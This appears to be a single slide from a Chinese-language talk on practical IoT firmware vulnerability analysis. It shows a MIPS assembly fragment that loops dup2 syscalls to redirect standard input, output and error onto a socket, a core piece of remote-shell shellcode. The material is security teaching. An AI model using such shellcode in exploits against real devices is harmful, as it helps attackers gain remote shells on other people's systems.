

实战IOT固件漏洞分析
dup(sock,0);dup(sock,1);dup(sock,2)
li t7, -3
nor a1, t7, zero		# a1 = 2
lw a0, -1(sp)		# a0 = sock
li v0, 4063
syscall 0x40404		# dup(sock,2)
addi a1, a1, -1
li at, -1
bne a1, at, 0xfffffffffffffff0		# loop
（bne	a1,at,0x7d7fedfc）